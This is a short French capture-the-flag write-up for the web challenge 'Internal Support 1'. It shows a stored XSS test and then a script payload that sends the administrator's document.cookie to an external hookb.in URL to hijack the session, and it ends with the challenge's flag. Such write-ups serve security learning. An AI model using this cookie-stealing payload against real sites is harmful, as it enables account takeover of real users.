

# Internal Support 1

## Description

L'application "Internal Support" permet à la DGA d'assurer le support auprès de ses agents. En tant que nouvel embauché, vous pouvez vous y inscrire dès à présent. Chaque demande de support est maintenant traitée par nos administrateurs en un temps record.

Avec une posture d’attaquant, votre but est de parvenir à vous connecter en tant qu'administrateur. Malheureusement pour vous, le mot de passe est bien trop robuste, vous devez trouver un autre moyen.

> Accès à l'épreuve: http://internalsupport12.chall.malicecyber.com/

## Solution

Après connexion, on se retouve avec un formulaire.


On essaye donc une simple XSS avec `<script>alert(1)</script>`.

La XSS fonctionne, on récupère donc le cookie de l'administrateur avec ce payload:

```html
<script>
    document.location='https://hookb.in/03OXrDoBQBs1yykKO0WE/?c='+document.cookie;
</script>
```
En utilisant le cookie obtenue, on trouve le flag dans la page d'acceuil.



Le flag est `NoUserValidationIsADangerousPractice`.

## Write-up

- [Nicolas Bourras](https://nicolasb.fr/blog/writeup-dghack-internal-support-1/)
